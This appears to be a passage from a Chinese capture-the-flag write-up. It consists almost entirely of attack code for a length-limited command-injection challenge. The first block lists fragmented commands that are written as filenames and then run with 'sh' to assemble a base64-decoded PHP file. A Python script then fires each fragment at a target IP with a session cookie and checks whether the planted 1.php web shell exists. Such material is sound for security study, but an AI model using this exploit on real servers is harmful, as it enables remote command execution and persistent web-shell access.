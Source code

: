 ```has-numbering
>\ \\
>64\\
>se\\
>ba\\
>\|\\
>7\\
>Sk\\
>X\\
>x\\
>Fs\\
>FV\\
>d\\
>X0\\
>k\\
>g\\
>bC\\
>h\\
>XZ\\
>gZ\\
>A\\
>aH\\
>w\\
>D9\\
>P\\
>S}\\
>IF\\
>{\\
>\$\\
>o\\
>ch\\
>e\\
sh 0
sh f            

```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

脚本：

```prism
import requests

url = "http://152.136.11.155:10109/?6={0}"
cookies = {"PHPSESSID": "1be0406b25e76622ec8aece860d13e82"}  # 添加PHPSESSID cookie

print("[+] Start attack!!!")
with open("results.txt", "r") as f:
    for i in f:
        print("[*] " + url.format(i.strip()))
        requests.get(url.format(i.strip()), cookies=cookies)  # 传入cookies

# 检查是否攻击成功
test = requests.get("http://152.136.11.155:10109/sandbox/85323d93cc57664e7b283ecce923a707/1.php", cookies=cookies)  # 传入cookies
if test.status_code == requests.codes.ok:
    print("[*] Attack success!!!")


```
